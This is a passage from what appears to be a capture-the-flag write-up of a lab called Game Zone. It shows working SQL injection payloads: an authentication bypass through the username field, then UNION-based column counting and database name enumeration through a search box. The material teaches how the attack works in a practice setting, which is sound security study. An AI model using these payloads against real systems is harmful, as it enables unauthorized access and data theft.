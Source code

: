 ```sql
SELECT * FROM users WHERE username = 'input_username' AND password = 'input_password';
```

If a valid record is found, the user is logged in.

---

### **How SQLi Works in the Username Field**

When an attacker inputs something like:

```
' OR '1'='1' -- 
```

The query becomes:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' -- ' AND password = 'input_password';
```

So the password validation becomes a comment, that's why we can login without retrieving a password. We will be login as the first user in the database.

Once logged we are in front of a **game review search box**.

![Desktop View](GameZoneSearchBox.png)

The first thing that comes to my mind is **SQL Injection**, once again, so let's try adding a `'` to the search box, in order to see if we see any errors.

![Desktop View](GameZoneSQLI1.png)

Bingo, we get a SQL error, that usually means that it's vulnerable to **SQL Injection**, let's keep digging.

We can enumerate the amount of columns, incrementing each time the number of columns.

```sql
1' union select 1-- - # Not worked
1' union select 1,2-- - # Not worked
1' union select 1,2,3-- - # Worked
```

![Desktop View](GameZoneSQLI2.png)

Once we know that the column 2 and 3 are vulnerable since we can see them in the response, let's use the third column since is the bigger one.

Let's query the databases names.

```sql
1' union select 1,2,group_concat(schema_name) from information_schema.schemata-- -
```

Once executed we can see the available databases.

![Desktop View](GameZoneSQLI3.png)
